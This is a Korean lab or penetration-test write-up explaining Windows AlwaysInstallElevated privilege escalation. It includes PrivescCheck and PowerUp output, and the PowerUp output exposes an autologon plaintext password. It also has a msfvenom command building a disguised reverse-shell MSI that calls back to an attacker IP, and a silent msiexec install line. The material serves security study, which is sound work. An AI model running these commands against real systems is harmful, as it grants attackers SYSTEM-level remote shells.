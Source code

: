 

### 1. **취약점 기본 개념 (AlwaysInstallElevated 정책)**

- **정책 역할**: Windows Installer (msiexec.exe)는 소프트웨어 설치 도구로, 기본적으로 사용자 권한으로 MSI 패키지를 설치합니다. 하지만 "AlwaysInstallElevated" 정책이 활성화되면, 모든 MSI 설치가 자동으로 SYSTEM 권한(최고 수준의 로컬 Administrator 권한)으로 실행됩니다. 이는 기업 환경에서 관리자가 소프트웨어를 쉽게 배포하기 위해 설정하지만, 보안상 매우 위험합니다.
- **활성화 조건**: PrivescCheck.ps1 결과처럼, 다음 두 레지스트리 키가 모두 1(DWORD)로 설정되어야 합니다:
    - **HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1**: 시스템 전체(모든 사용자)에 적용.
    - **HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1**: 현재 사용자에 적용.
- **왜 취약한가?**: 이 정책이 둘 다 활성화되면, 저권한 사용자(low-privilege user)가 악성 MSI 파일을 설치할 때 SYSTEM 권한을 상속받습니다. 결과적으로, MSI 내 페이로드(예: 리버스 쉘)가 root 수준으로 실행되어 권한 상승이 발생합니다. Microsoft는 이 설정을 강력히 비추천하며, UAC(User Account Control)를 우회하는 효과가 있습니다.

---

### 2. **취약한 부분 상세 분석**

- **레지스트리 구성 오류**: 시스템 관리자가 그룹 정책(Group Policy)이나 레지스트리를 통해 이 설정을 의도적으로 활성화하거나, 실수로(예: 자동화 스크립트나 오래된 구성) 남겨둔 경우 발생합니다. HKLM만 설정되면 시스템 전체 영향을 주지만, HKCU도 함께 설정되어야 사용자별로 악용 가능합니다. PrivescCheck.ps1이 이를 확인한 대로, "Description: AlwaysInstallElevated is enabled in both HKLM and HKCU"는 취약점을 직접 지시합니다.
- **MSI 설치 메커니즘 취약**: msiexec는 MSI 파일을 처리할 때 정책을 확인합니다. AlwaysInstallElevated가 on이면, 설치 프로세스가 SYSTEM 컨텍스트로 전환됩니다. 이는 정상 설치에는 편리하지만, 악성 MSI(예: 리버스 쉘 포함)를 만들면 SYSTEM 쉘을 spawn할 수 있습니다.
- **runas 명령어의 역할**: runas /user:dev-datasci-lowpriv는 저권한 사용자(dev-datasci-lowpriv)로 명령어를 실행하지만, msiexec 자체가 정책으로 인해 SYSTEM으로 상승합니다. /qn 옵션은 UI 없이 조용히 설치(quiet mode)하므로, 탐지 회피에 유용합니다.
- **전체 취약 포인트**:
    - **정책 활성화**: 둘 다 1로 설정되지 않았다면, 저권한 사용자가 MSI를 설치해도 SYSTEM 권한을 얻지 못합니다.
    - **MSI 페이로드 생성**: msfvenom이 MSI 형식으로 쉘을 패키징하므로, 설치 시 페이로드가 트리거됩니다.
    - **UAC 및 권한 검사 우회**: 정책이 SYSTEM으로 강제하므로, 별도의 권한 요청 없이 상승합니다.


[[PrivescCheck]]


```powershell title="PrivescCheck"
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Configuration - MSI AlwaysInstallElevated         ┃
┃ TYPE     ┃ Base                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'AlwaysInstallElevated' policy is enabled  ┃
┃ system-wide and for the current user. If so, the current     ┃
┃ user may install a Windows Installer package with elevated   ┃
┃ (SYSTEM) privileges.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛


LocalMachineKey   : HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
LocalMachineValue : AlwaysInstallElevated
LocalMachineData  : 1
CurrentUserKey    : HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
CurrentUserValue  : AlwaysInstallElevated
CurrentUserData   : 1
Description       : AlwaysInstallElevated is enabled in both HKLM and HKCU.
```

```powershell title="PowerUp.ps1"
[*] Checking for Autologon credentials in registry...


DefaultDomainName    : DEV-DATASCI-JUP
DefaultUserName      : dev-datasci-lowpriv
DefaultPassword      : wUqnKWqzha*W!PWrPRWi!M8faUn
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
```


---

리버스 TCP 쉘을 MSI 패키지로 만듭니다. 설치 시 쉘이 실행되어 공격자(Kali)로 연결합니다.

```bash title="Kali"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.10 LPORT=443 -a x64 --platform Windows -f msi -o kb1108264.msi
```


- runas: 저권한 사용자 컨텍스트로 전환 (하지만 정책으로 인해 msiexec가 SYSTEM으로 실행).
- msiexec /i: MSI 설치, /qn: 무음 설치.
- 결과: MSI 내 쉘이 SYSTEM으로 실행되어 Administrator(또는 SYSTEM) 권한 리버스 쉘이 Kali에 연결됩니다

```powershell title="Target"
runas /user:dev-datasci-lowpriv “msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\kb1108264.msi /qn”
```


취약성 악용 이유: 정책이 MSI 설치 프로세스를 SYSTEM으로 강제하므로, 저권한 사용자라도 악성 패키지를 통해 권한을 "빌려" 상승합니다. 이는 Windows Installer의 설계상 보안 홀입니다.